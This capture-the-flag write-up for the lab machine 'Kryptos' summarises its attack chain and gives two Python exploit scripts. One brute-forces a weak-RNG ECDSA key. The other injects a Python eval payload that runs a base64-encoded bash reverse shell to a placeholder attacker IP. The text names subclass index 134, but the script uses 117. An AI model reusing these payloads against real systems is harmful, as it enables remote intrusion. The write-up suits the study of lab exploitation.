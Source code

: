 # Kryptos (PDO Injection, SQLite3 RCE, Python Eval Injection)

KryptOS is an insane difficulty Linux box which requires knowledge of how cryptographic
algorithms work. A login page is found to be vulnerable to PDO injection, and can be hijacked to
gain access to the encrypting page. The page uses RC4 to encrypt files, which can be subjected
to a known plaintext attack. This can be used to abuse a SQL injection in an internal web
application to dump code into a file, and execute it to gain a shell. A `Vimcrypt` file is found, which
uses a broken algorithm and can be decrypted. A vulnerable python app running on the local
host is found using a weak RNG (Random Number Generator) which can be brute forced to gain
RCE via the `eval` function.

# Skills Learned:

- PDO Injection
- Exploiting RC4 flaws
- RCE via SQLite3
- Decrypting Vimcrypt files
- Analysing RNG
- Python eval injection

# Problems I Ran Into

1. Priv Esc (Python eval injection)
    - Following the official walkthrough by HTB, there is a `[brute.py](http://brute.py)` script that you have to run to test if the server is vulnerable and to the get the signature being used
    - The script given in the walkthrough gave me problems so I had to tweak it a bit. Here is the script I used:
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines() # uniq.txt is the list of unique values found from rng.py
    expr = "900 + 1"
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    for rand in uniq_vals:
    	sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    	sig = sign(expr, sk)
    	data = { "expr" : expr , "sig" : sig }
    	res = requests.post( url, json = data )
    	print res.text
    	if "Bad" not in res.text:
    		print "Found signature {}".format(sig)
    		print res.text
    		print "Rand: {}".format(rand) # the unique value from uniq.txt
    		print "KEEP NOTE OF THE RAND"
    		break
    ```
    
    - After I found the signature and uniq rand, I tweaked the script again, but after I found where the `os` class is located in python
    - To find the `os` class do the following:
        - open python interpreter in the command line
        
        ```python
        >>> count = 0
        >>> for i in [].__class__.__base__.__subclasses__():
        ...    print(count)
        ...    count += 1
        ...    print(i)
        ...
        
        ```
        
        - `<class 'os.wrap_close'>` is found to be number 134
        
    ![os Class](https://scriptkiddiehub.com/wp-content/uploads/2021/10/kryptos.png)
    - Set up your nc listener and run the following tweaked `brute.py`
    - Now here is the tweaked `[brute.py](http://brute.py)` :
    
    ```python
    #!/usr/bin/python
    import requests
    import json
    import hashlib
    import binascii
    from ecdsa import VerifyingKey, SigningKey, NIST384p
    url = 'http://127.0.0.1:81/eval'
    uniq_vals = open("uniq.txt").readlines()
    expr = "[].__class__.__base__.__subclasses__().__getitem__(117).__init__.__globals__['system']('echo YmFzaCAtaSA+JiAvZGV2L3RjcC88QVRUQUNLRVIgSVA+LzEyMzQgMD4mMQ== | base64 -d | bash')"
    
    def sign(msg, sk):
    	return binascii.hexlify(sk.sign(msg))
    
    rand = 59763658961195455702488250327064726633945798537104807246171656262148712073505
    sk = SigningKey.from_secret_exponent(int(rand), curve=NIST384p)
    sig = sign(expr, sk)
    data = { "expr" : expr , "sig" : sig }
    res = requests.post( url, json = data )
    
    if "Bad" not in res.text:
    	print "Found signature {}".format(sig)
    	print res.text
    ```